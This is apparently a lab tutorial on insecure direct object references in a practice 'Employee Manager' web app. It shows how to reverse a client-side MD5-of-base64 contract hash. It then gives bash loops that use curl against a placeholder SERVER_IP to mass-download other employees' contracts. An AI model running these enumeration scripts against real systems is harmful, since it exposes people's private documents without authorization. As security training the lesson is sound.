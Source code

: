 # Bypassing Encoded References
In some cases, web applications make hashes or encode their object references, making enumeration more difficult, but it may still be possible.
## Example Scenario
Let's go back to the `Employee Manager` web application to test the `Contracts` functionality.

If we click on the `Employment_contract.pdf` file, it starts downloading the file. The intercepted request in Burp looks as follows:

![HTTP POST request to /download.php with contract parameter 'cdd96d3cc73d1dbdaffa03c6cd7339b' and headers including Host, Content-Length, and User-Agent](https://academy.hackthebox.com/storage/modules/134/web_attacks_idor_download_contract.jpg)

We see that it is sending a `POST` request to `download.php` with the following data:
```php
contract=cdd96d3cc73d1dbdaffa03cc6cd7339b
```
- In this case, the web application is not sending the direct reference in cleartext but appears to be hashing it in an `md5` format.

We can attempt to hash various values, like `uid`, `username`, `filename`, and many others, and see if any of their `md5` hashes match the above value. If we find a match, then we can replicate it for other users and collect their files. For example, let's try to compare the `md5` hash of our `uid`, and see if it matches the above hash:
```bash
echo -n 1 | md5sum

c4ca4238a0b923820dcc509a6f75849b
```

Unfortunately, the hashes do not match. We can attempt this with various other fields, but none of them matches our hash.
## Function Disclosure
As most modern web applications are developed using JavaScript frameworks, like `Angular`, `React`, or `Vue.js`, many web developers may make the mistake of performing sensitive functions on the front-end, which would expose them to attackers.

For example, if the above hash was being calculated on the front-end, we can study the function and then replicate what it's doing to calculate the same hash. Luckily for us, this is precisely the case in this web application.

If we take a look at the link in the source code, we see that it is calling a JavaScript function with `javascript:downloadContract('1')`. Looking at the `downloadContract()` function in the source code, we see the following:
```javascript
function downloadContract(uid) {
    $.redirect("/download.php", {
        contract: CryptoJS.MD5(btoa(uid)).toString(),
    }, "POST", "_self");
}
```

This function appears to be sending a `POST` request with the `contract` parameter, which is what we saw above. The value it is sending is an `md5` hash using the `CryptoJS` library, which also matches the request we saw earlier. So, the only thing left to see is what value is being hashed.

In this case, the value being hashed is `btoa(uid)`, which is the `base64` encoded string of the `uid` variable, which is an input argument for the function. Going back to the earlier link where the function was called, we see it calling `downloadContract('1')`. So, the final value being used in the `POST` request is the `base64` encoded string of `1`, which was then `md5` hashed.

We can test this by `base64` encoding our `uid=1`, and then hashing it with `md5`, as follows:
```bash
echo -n 1 | base64 -w 0 | md5sum

cdd96d3cc73d1dbdaffa03cc6cd7339b -
```
- `-n` flag with `echo`, and the `-w 0` flag with `base64`, to avoid adding newlines, in order to be able to calculate the `md5` hash of the same value, without hashing newlines, as that would change the final `md5` hash.

We have successfully reversed the hashing technique used on the object references, turning them into IDOR's. With that, we can begin enumerating other employees' contracts using the same hashing method we used above. `Before continuing, try to write a script similar to what we used in the previous section to enumerate all contracts`.
## Mass Enumeration
Let us write a simple bash script to retrieve all employee contracts. More often than not, this is the easiest and most efficient method of enumerating data and files through IDOR vulnerabilities

We can start by calculating the hash for each of the first ten employees using the same previous command while using `tr -d` to remove the trailing `-` characters, as follows:
```bash
for i in {1..10}; do echo -n $i | base64 -w 0 | md5sum | tr -d ' -'; done
```

Next, we can make a `POST` request on `download.php` with each of the above hashes as the `contract` value, which should give us our final script:
```bash
#!/bin/bash

for i in {1..10}; do
    for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
        curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
    done
done
```

We can run with `bash ./exploit.sh` and get all contracts for employees 1-10.
### GET request instead of POST request
```bash
for i in {1..20}; do
    for hash in $(echo -n $i | base64 -w 0); do
        curl -sOJ "http://STMIP:STMPO/download.php?contract=$hash"
    done
done
```